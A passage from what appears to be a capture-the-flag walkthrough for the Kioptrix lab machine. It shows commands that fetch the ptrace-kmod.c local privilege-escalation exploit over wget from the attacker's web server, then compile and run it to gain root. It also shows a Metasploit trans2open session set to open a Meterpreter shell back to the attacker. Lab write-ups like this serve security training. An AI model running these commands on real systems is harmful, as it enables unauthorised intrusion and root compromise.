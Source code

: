 ```
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--07:43:17--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
            => ptrace-kmod.c
Connecting to dl.packetstormsecurity.net:443... 
dl.packetstormsecurity.net: Host not found.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove ptrace-kmod.c: No such file or directory 
```

Ok, we are missing some **ptrace-kmod.c**. You can download the file in the same repo. Now we only need to upload it to our victim machine. Copy the file to `/var/www/html/` and start Apache:

```bash
sudo service apache2 start
```

In Kioptrix, download the file with wget:

```bash
wget YOUR-IP/ptrace-kmod.c
```

Now we just need to compile, give permissions and exploit!

```bash
gcc -o exploit ptrace-kmod.c
chmod 777 exploit
./exploit
```

And there we go! We have root acces FTW! We can check it with the command `id`:

```
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

### Method #2

With a quick search on the Internet, we already find some interesting stuff about the Samba exploitation: [**Samba trans2open Overflow (Linux x86).**](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/) And it's on **Rapid7 Exploit Database** what means... Open **Metasploit!**

```bash
sudo msfconsole
use exploit/linux/samba/trans2open
```

Ok, now we set our **RHOST** (Kioptrix) and **LHOST** (our Kali machine) and try to exploit:

```bash
set RHOSTS 192.168.1.31
set LHOST 192.168.1.23
exploit
```

But something fails... 

```
[*] 192.168.1.31:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 192.168.1.31
[*] 192.168.1.31 - Meterpreter session 1 closed.  Reason: Died
[-] Meterpreter session 1 is not valid and will be closed
```
